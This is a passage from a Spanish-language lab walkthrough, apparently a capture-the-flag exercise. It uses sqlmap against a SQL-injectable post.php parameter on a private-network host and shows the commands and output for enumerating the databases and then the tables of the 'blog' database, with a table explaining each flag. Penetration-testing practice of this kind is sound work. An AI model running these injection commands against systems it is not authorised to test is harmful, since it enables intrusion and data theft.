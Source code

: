 ```bash
back-end DBMS: MySQL >= 5.0.12
...
```

| Parámetros | Descripción |
|--------------------------|
| *-u*	     | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |

<br>

Observa que son justamente las que descubrimos manualmente.

Obtengamos las bases de datos existentes:
```bash
sqlmap -u 'http://192.168.10.240/post.php?id=1' --batch --dbs
...
[09:14:25] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] performance_schema
...
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |

<br>

Tenemos 3 BDs, 2 por defecto y la que se está usando actualmente.

Obtengamos las tablas de la base de datos **blog**:
```bash
sqlmap -u 'http://192.168.10.240/post.php?id=1' --batch -D 'blog' --tables
...
[09:23:54] [INFO] fetching tables for database: 'blog'
Database: blog
[3 tables]
+----------+
| comments |
| posts    |
| users    |
+----------+
...
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *-D*	     | Selecciona una base de datos especifica a enumerar. |
| *--tables* | Enumera las tablas de una base de datos específica. |
